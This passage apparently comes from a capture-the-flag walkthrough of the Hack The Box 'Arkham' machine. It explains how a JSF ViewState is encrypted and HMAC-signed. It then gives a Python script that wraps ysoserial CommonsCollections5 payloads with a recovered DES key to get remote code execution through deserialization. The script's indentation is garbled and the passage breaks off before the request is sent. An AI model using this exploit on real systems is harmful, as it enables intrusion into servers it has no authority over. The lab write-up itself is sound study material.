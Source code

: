 ```java
```

The way it works is the serialized Java object is made of DES encrypted data with the HMAC used for verification appended at the end, it being the last 20 bytes. This structure is then encoded in Base64 and it’s what we saw earlier on Burp. The HMAC is used to calculate a message digest using the encrypted data and the secret key, when the server receives the ViewState object back it will first calculate a new HMAC from the data it received and the key stored in the settings, if it’s the same as the HMAC appended to the data then the data can be trusted and it is finally deserialized. Now that we have that secret key we can use it to calculate our own valid HMACs, allowing us to achieve RCE because our objects will look 100% legit.

---

## Exploitation: blind shell through deserialization flaw

By exploiting this flaw we'll be able to execute arbitrary Java gadgets that when chained together can perform several tasks, but because we're not executing OS commands from the start we need a third party program to generate these chains for us and serialize them, for this purpose I downloaded [ysoserial](https://github.com/frohoff/ysoserial) and used the CommonsCollections5 gadgets to execute cmd.exe on the system. ysoserial returns the serialized object on stdout so we can write a Python script that grabs the output from ysoserial and forwards it to the server after encrypting it properly and appending the correct HMAC to it:

```python
import base64
import hashlib
import urllib
import hmac
import pyDes
import sys
import requests
import subprocess

# generate the serialized Java object
def getPayload(cmd):
p = subprocess.Popen('java -jar /home/baud/arkham/ysoserial.jar CommonsCollections5 "'+cmd+'"', stdout=subprocess.PIPE, stderr=subprocess.PIPE,shell=True)
payload = p.stdout.read()

# encrypt the object with DES
secret = bytes(base64.b64decode("SnNGOTg3Ni0="))
des_obj = pyDes.des(secret, pyDes.ECB, IV=None, padmode=pyDes.PAD_PKCS5)
encrypted_payload = des_obj.encrypt(payload)

# calculate the HMAC
mac_obj = hmac.new(secret, encrypted_payload, hashlib.sha1)
mac = mac_obj.digest()

# return [encrypted_data + HMAC]
out = base64.encodestring(encrypted_payload + mac)
out = out.replace('\n', '').replace('\r', '')
return out

# ask for the command to be executed
while True:
	cmd = raw_input("> ")
	if cmd == 'exit':
		sys.exit(0)
		
		# send a POST request to the server with our newly crafted ViewState object
		url = "http://10.10.10.130:8080/userSubscribe.faces"
		cookies = {"JSESSIONID": "38D5C0F7EAC7A6F06299275C268986BB"}
		req_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36"}
```